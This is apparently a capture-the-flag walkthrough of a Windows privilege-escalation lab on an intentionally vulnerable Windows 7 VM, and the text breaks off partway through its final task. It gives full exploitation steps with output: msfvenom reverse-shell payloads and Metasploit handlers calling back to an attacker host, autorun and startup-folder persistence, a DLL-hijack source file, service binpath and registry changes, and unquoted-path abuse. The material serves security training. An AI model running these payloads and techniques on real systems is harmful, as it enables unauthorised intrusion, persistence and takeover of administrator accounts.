







# Windows PrivEsc Arena

Students will learn how to escalate privileges using a very vulnerable Windows 7 VM. RDP is open. Your credentials are `user`:`password321`

# [Task 2] Deploy the vulnerable machine

## #2.0 - Instructions

This room will teach you a variety of Windows privilege escalation tactics, including kernel exploits, DLL hijacking, service exploits, registry exploits, and more. This lab was built utilizing Sagi Shahar's privesc workshop (https://github.com/sagishahar/lpeworkshop) and utilized as part of The Cyber Mentor's Windows Privilege Escalation Udemy course (http://udemy.com/course/windows-privilege-escalation-for-beginners).

All tools needed to complete this course are on the user desktop (C:\Users\user\Desktop\Tools).

Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:

* username: user
* password: password321

For any administrative actions you might take, your credentials are:

* username: TCM
* password: Hacker123

## #2.1 - Deploy the machine and log into the user account via RDP

We'll use Remmina to connect.

## #2.2 - Open a command prompt and run 'net user'. Who is the other non-default user on the machine?

~~~
C:\Users\user>net user

User accounts for \\TCM-PC

-------------------------------------------------------------------------------
Administrator            Guest                    TCM
user
The command completed successfully.
~~~

The other user is `TCM`

# [Task 3] Registry Escalation - Autorun

## #3.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
2. In Autoruns, click on the "Logon" tab.
3. From the listed results, notice that the `My Program` entry is pointing to `C:\Program Files\Autorun Program\program.exe`.
4. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
5. From the output, notice that the "Everyone" user group has "FILE_ALL_ACCESS" permission on the "program.exe" file.


**Exploitation**

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM

1. Place program.exe in `C:\Program Files\Autorun Program`.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## #3.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's open Autoruns, and click on the "Logon" tab. We notice that "my program" is automatically started at logon:



Now, let's use accesschk to confirm that we have write access to `c:\Program Files\Autorun Program`

~~~
C:\Users\user\Desktop\Tools>c:\Users\user\Desktop\Tools\Accesschk\accesschk64.exe -wvu "c:\Program Files\Autorun Program"

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
~~~

Notice that everyone has write access to `program.exe` which is automatically started at logon. We'll take advantage of this to create persistence.

**Exploitation**

Let's fire up `msfconsole` and create a handler for our reverse shell:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
~~~

Now, we'll use `msfvenom` to build our reverse shell.

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.**.** LPORT=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
~~~

There are many ways to transfer the file to the Windows machine. I like to use the Invoke-WebRequest powershell command, but it is not available on this Windows machine. That said, we have a RDP connection, so let's start a web server on our own machine (`python -m http.server`) and download it from the Windows machine (`http://10.9.**.**:8000/program.exe`) directly as `c:\Program Files\Autorun Program\program.exe`.

Now, log off from the Windows machine and log in again, as `user`. You will probably have this security warning, ignore it and accept to run the program.

.

We now have a meterpreter:

~~~
[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 1 opened (10.9.**.**:4444 -> 10.10.242.238:49265) at 2020-05-19 09:59:41 +0200

meterpreter > getuid 
Server username: TCM-PC\user
~~~

# [Task 4] Registry Escalation - AlwaysInstallElevated

## #4.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
2. From the output, notice that “AlwaysInstallElevated” value is 1.
3. In command prompt type: `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
4. From the output, notice that “AlwaysInstallElevated” value is 1.

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
7. Copy the generated file, `setup.msi`, to the Windows VM.

Windows VM

1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi

Enjoy your shell! :)

## #4.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's check that `AlwaysInstallElevated` is equal to 1, both in HKLM and HKCU:

~~~
C:\Users\user>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKCU\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
~~~

**Exploitation**

Now, let's background our meterpreter session and open a second handler, on port 5555:

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:5555
~~~

Create a new reverse shell (this time as msi instead of exe) with msfvenom:

~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
~~~

Transfer the msi generated file to the Windows machine (to `C:\temp\setup.msi`) using the same technique as previously. Once done, execute it:

~~~
C:\> msiexec /quiet /qn /i c:\temp\setup.msi
~~~

We now have a meterpreter, with `NT AUTHORITY\SYSTEM` privileges:

~~~
[*] Started reverse TCP handler on 10.9.**.**:5555 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 2 opened (10.9.**.**:5555 -> 10.10.242.238:49323) at 2020-05-19 10:46:04 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
~~~

# [Task 5] Service Escalation - Registry

## #5.0 - Instructions

**Detection**

Windows VM

1. Open powershell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

Kali VM

1. Open windows_service.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe` (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file 'x.exe', to the Windows VM.

Windows VM

1. Place 'x.exe' in ‘C:\Temp’.
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
3. In the command prompt type: `sc start regsvc`
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #5.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

On Windows, enter the following command to get the security descriptor of 'regsvc'.

~~~
C:\Users\user>powershell -c "Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl"


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
~~~

Notice that the following groups have full control over the registry:
* NT AUTHORITY\INTERACTIVE
* NT AUTHORITY\SYSTEM
* BUILTIN\Administrators

**Exploitation**

To download the files from the Windows machine, the easiest is to right click on the 'Tools' directory, share it, and get the content using `smbget` or `smbclient` from Kali.

Now, let's modify the file '.\Source\windows_service.c' so that the `Run()` function looks like this:

```c
//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 
```

Now, let's compile the program (you may need to install 'gcc-mingw-w64').

~~~
$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
~~~

Now, on Windows, download the executable `http://10.9.**.**:8000/x.exe` after you have run the web server on Kali (`python3 -m http.server`).

At this stage, we have replaced the registry program with our own executable, that will add our "user" to the "administrators" group. Let's execute it:

~~~
C:\Users\user>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath
 /t REG_EXPAND_SZ /d c:\temp\x.exe /f
The operation completed successfully.

C:\Users\user>sc start regsvc

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3220
        FLAGS              :
~~~

Now, our user is part of the "administrators":

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 6] Service Escalation - Executable Files

## #6.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
2. Notice that the "Everyone" user group has "FILE_ALL_ACCESS" permission on the "filepermservice.exe" file.

**Exploitation**

Windows VM

1. Open command prompt and type: `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
2. In command prompt type: `sc start filepermsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #6.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's first ensure we can write in "C:\Program Files\File Permissions Service" directory:

~~~
C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Pro
gram Files\File Permissions Service

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
~~~

Write access to "filepermservice.exe" is granted for everyone, so that's perfect.

**Exploitation**

Now, let's use our previous executable (`x.exe`) to replace the "filepermservice.exe", and start the service:

~~~
C:\Users\user>copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
        1 file(s) copied.

C:\Users\user>sc start filepermsvc

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3720
        FLAGS              :
~~~

We are now in the "administrators" group:

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 7] Privilege Escalation - Startup Applications

## #7.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open another command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`
7. Copy the generated file, "x.exe", to the Windows VM.

Windows VM

1. Place "x.exe" in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
2. Logoff.
3. Login with the administrator account credentials.

Kali VM

1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: `getuid`
3. From the output, notice the user is “User-PC\Admin”

## #7.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's check our privileges on the "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" directory.

~~~
C:\Users\user>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
~~~

We have full (F) access.

**Exploitation**

Now, let's setup a handler in metasploit:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
~~~

Let's use msfvenom to make an executable reverse shell:

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.**.** LPORT=4444 -f exe -o shell.exe
~~~

Now, transfer the reverse shell to the Windows machine and place it to "C:\ProgramData\Microsft\Windows\Start Menu\Programs\Startup". 



Log off and log in again. We now have a meterpreter:

~~~
[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 1 opened (10.9.**.**:4444 -> 10.10.242.238:49317) at 2020-05-19 14:27:59 +0200

meterpreter > getuid 
Server username: TCM-PC\user
~~~

# [Task 8] Service Escalation - DLL Hijacking

## #8.0 - Instructions

**Detection**

Windows VM

1. Open the Tools folder that is located on the desktop and then go the "Process Monitor" folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on "Procmon.exe" and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: "dllhijackservice.exe"
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: `NAME NOT FOUND`
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: `sc start dllsvc`
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Kali VM

1. Open 'windows_dll.c' in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
3. Copy the generated file "hijackme.dll", to the Windows VM.

Windows VM

1. Place "hijackme.dll" in ‘C:\Temp’.
2. Open command prompt and type: `sc stop dllsvc & sc start dllsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #8.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Open "process monitor" and add the following 2 filters:



Now, start dllsvc and monitor procmon:



**Exploitation**

Now, create the following program (`windows_dll.c`):

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Compile it:

~~~
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
~~~

And transfer it to Windows, under `C:\temp`.

Execute it by restarting the dllsvc service:

~~~
C:\Users\user>sc stop dllsvc & sc start dllsvc

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2396
        FLAGS              :
~~~

Our user is now in the administrators group:

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 9] Service Escalation - binPath

## #9.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

**Exploitation**

Windows VM

1. In command prompt type: `sc config daclsvc binpath="net localgroup administrators user /add"`
2. In command prompt type: `sc start daclsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #9.1 - Click 'Completed' once you have successfully elevated the machine

~~~
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

C:\Users\user>sc config daclsvc binpath= "net localgroup administrators user /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\user>sc start daclsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 10] Service Escalation - Unquoted Service Paths

## #10.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `sc qc unquotedsvc`
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

**Exploitation**

Kali VM

1. Open command prompt and type: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
2. Copy the generated file, "common.exe", to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: `sc start unquotedsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).

## #10.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Notice in the below command that the path (BINARY_PATH_NAME variable) is not protected by quotes

~~~
C:\Users\user>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
The command completed successfully.
~~~

**Exploitation**

Let's use msfvenom to generate our service executable. The command that will be executed will add our user to the administrators group:

~~~
$ msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
Found a database at /home/unknown/.msf4/db, checking to see if it is started
Starting database at /home/unknown/.msf4/db...success
MSF web service is already running as PID 10094
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 224 bytes
Final size of exe-service file: 15872 bytes
Saved as: common.exe
$ python -m http.server
~~~

Download the executable on Windows, in `C:\Program Files\Unquoted Path Service\common.exe`, and start the service. We are noow in the administrators group.

~~~
C:\Users\user>sc start unquotedsvc

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
